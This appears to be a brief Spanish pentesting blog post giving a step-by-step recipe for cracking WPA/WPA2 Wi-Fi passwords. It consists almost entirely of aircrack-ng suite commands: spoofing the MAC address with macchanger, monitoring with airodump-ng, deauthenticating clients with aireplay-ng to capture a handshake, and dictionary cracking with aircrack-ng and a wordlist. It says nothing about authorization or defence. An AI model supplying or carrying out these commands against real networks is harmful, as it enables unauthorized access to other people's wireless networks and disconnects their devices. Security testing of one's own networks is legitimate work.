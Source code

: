 Title: wpa
Date: 2015-09-5 14:03
Modified: 2015-09-5 14:03
Category: Pentesting
Tags: wpa, aircrack, wifi
Slug: WPA
Authors: procamora
Summary:

## WPA / WPA2 Cracking

###### 1. Para saber que wlan tenemos.
`airmon-ng`


###### 2. Para parar la wlan0.
`airmon-ng stop wlan0`


###### 3. Para bajar el adaptador wifi y poder modificar su mac
`ifconfig wlan0 down`


###### 4. Para cambiar la mac, podemos poner la que queramos.
`macchanger --mac [00:11:22:33:44:55] wlan0`


###### 5. Para volver a activar la wlan0.
`airmon-ng start wlan0`


###### 6. Para escanear las redes cercanas. Nos interesan las BSSID y la STATION.
`airodump-ng mon0`


###### 7. En --channel ponemos el CH, en --bssid la MAC y en -w ponemos la direccion de donde queremos que se guarden los .cap.
`airodump-ng mon0 --channel 11 --bssid [A0:21:B7:D5:A8:78] -w [/tmp/wpa2]`


###### 8. Para inyectar paquetes y capturar el Handshake, en -a ponemos la BSSID, en -c ponemos la STATION.
`aireplay-ng -0 11 -a [A0:21:B7:D5:A8:78] -c [00:12:F0:D3:30:BC] mon0`

> Una vez hecho esto solo nos queda desencriptar la password, lo podemos hacer de dos maneras por medio de diccionario o bruteandola con el Jonh The Ripper


###### 9. Crackear con diccionario, -w aqui la dirección del diccionario -b la dirección MAC, y por ultimo la dirección de donde se guardaban los paquetes .cap
`aircrack-ng -w [/pentest/passwords/wordlists/darkc0de.lst] -b [A0:21:B7:D5:A8:78] [/tmp/wpa2-01.cap]`
